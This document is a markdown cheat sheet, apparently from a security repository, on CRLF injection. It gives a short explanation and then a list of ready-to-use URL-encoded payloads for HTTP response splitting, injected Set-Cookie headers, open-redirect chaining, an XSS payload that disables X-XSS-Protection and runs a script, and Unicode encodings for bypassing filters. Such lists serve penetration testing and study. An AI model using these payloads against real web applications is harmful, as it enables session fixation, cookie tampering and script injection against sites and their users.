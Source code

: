 # **CRLF Injection** #

## **What is CRLF Injection?** ##

CRLF injection vulnerability is a type of security flaw that occurs when an attacker can inject carriage return (CR) and line feed (LF) characters into an application's input. These characters are used to control the formatting of text in protocols like HTTP. Exploiting this vulnerability can allow attackers to manipulate the behavior of the application, such as inserting additional HTTP headers, modifying content, or performing other malicious actions. This can lead to various attacks, including HTTP response splitting, cross-site scripting (XSS), and session fixation.

## **Payloads** ##

```

1. HTTP Response Splitting

• /%0D%0ASet-Cookie:mycookie=myvalue

2. CRLF chained with Open Redirect

• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                    

• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                      

• /google.com/%2F..%0D%0AHeader-Test:test2

• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS

• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23

• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass

• %E5%98%8A = %0A = \u560a

• %E5%98%8D = %0D = \u560d

• %E5%98%BE = %3E = \u563e (>)

• %E5%98%BC = %3C = \u563c (<)

• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test

```

### **Reference:** ###

- [https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)